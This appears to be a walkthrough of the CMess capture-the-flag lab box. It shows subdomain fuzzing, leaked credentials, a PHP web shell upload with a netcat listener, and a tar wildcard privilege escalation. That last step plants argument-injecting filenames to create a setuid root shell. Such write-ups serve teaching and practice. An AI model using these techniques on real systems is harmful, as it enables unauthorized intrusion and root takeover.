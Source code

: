 ## Challenge 2
 1. Run `wfuzz` against the site to discover the `dev` subdomain.
```bash
wfuzz -c -f sub-fighter -w top5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290
```
 2. This takes us to a static page with some text that gives us a username and password.
```text
Username: andre
Password: KPFTN_f2yxe%
```

 3. Use this username and password to login to the main site.
 4. Go to the file manager section.
 5. Go to `tmp/media_thumb`.
 6. Upload PHP shell file (shell.php) is fine.
 7. Update the `.htaccess` file to allow php files if using a `.php` extension
 8. Set up netcat listener on main Host.
```bash
nc -lvp PORT_NUM
```
 9. Access the PHP file: `http://cmess.thm/tmp/media_thumb/shell.php`
 10. Run the `LinEnum` script on the box.
 11. See the interesting file `/opt/.password.bak`. The file contains a password for `andre`.
```text
andres backup password
UQfsdCB7aAP6
```
 12. SSH into the box as `andre`.
 13. View Cron jobs.
```bash
cat /etc/crontab
```
```bash
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

 14. There is a backup every 2 minutes using the `tar` command that uses a wildcard.
 15. Create our malicious script:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
chmod +x runme.sh
```

 16. Exploit the `tar` wildcard setting by adding parameters:
```bash
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh
```

 17. Wait 2 minutes and run the binary created by the root user:
```bash
cd /tmp
./bash -p
```